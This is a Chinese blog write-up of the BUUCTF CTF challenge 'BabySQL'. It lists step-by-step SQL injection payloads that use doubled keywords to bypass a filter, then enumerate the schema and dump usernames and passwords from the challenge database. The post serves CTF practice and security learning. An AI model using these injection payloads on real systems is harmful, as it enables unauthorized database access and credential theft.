

BUUCTF-Web-[极客大挑战 2019]BabySQL
本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，看到熟悉的登录入口，老样子，看看是什么注入类型（在用户名位置写payload，密码随便写数字）
1 | 1' |
报错：你有一个错误在你的SQL语法;检查与您的MariaDB服务器版本对应的手册，以便在第1行’1”附近使用正确的语法
爆破字段数
1 | 1' order by 3# |

发现报错回显der 3#，与输入的payload相比缺少or,by字符
推测or,by被过滤了，试一下双写绕过（例如bbyy中by字符被过滤后就会变成by字符）
1 | 1' oorrder bbyy 3# |
正常回显
1 | 1' oorrder bbyy 4# |
确定字段数（列数）为3
1 | 1' union select 1,2,3# |
分析回显发现union和select也被过滤了
1 | 1' ununionion selselectect 1,2,3# |
爆数据库名和版本名
1 | 1' ununionion selselectect 1,database(),version()# |
爆表名
这里发现from，or，where也被过滤
1 | 1' ununionion selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='geek'# |
爆列名
1 | 1' ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'# |
爆flag
1 | 1' ununionion selselectect 1,2,group_concat(id,username,passwoorrd) frfromom b4bsql# |
往页面右边找，获得flag
本博客所有文章除特别声明外，均采用 CC BY-NC-SA 4.0 许可协议。转载请注明来源 半枫！